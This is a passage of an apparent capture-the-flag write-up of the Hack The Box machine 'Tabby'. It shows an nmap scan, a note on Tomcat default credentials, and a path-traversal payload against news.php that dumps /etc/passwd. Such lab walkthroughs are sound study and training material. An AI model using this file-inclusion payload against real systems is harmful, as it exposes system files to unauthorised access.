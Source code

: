 # Tabby

```
root@kali:/home/kali/htb/Tabby# nmap -p- -sV -sC 10.129.117.161 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-21 19:16 EDT
Nmap scan report for 10.129.117.161
Host is up (0.028s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.95 seconds
```

I check the links on the webserver, and see that the point to megahosting.htb so I add that to my /etc/hosts file.

The 8080 webserver links to the admin panel, and cancelling out of the pop-up login gives a default login of tomcat:s3cret which does not work.


On megahosting.htb/news.php?file=statement page it says:

```
We apologise to all our customers for the previous data breach.

We have changed the site to remove this tool, and have invested heavily in more secure servers
```

I want to see if we can get some LFI with this page.

I try: `http://megahosting.htb/news.php?file=../../../../../etc/passwd`

and get:

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false sshd:x:111:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false tomcat:x:997:997::/opt/tomcat:/bin/false mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false ash:x:1000:1000:clive:/home/ash:/bin/bash 
```
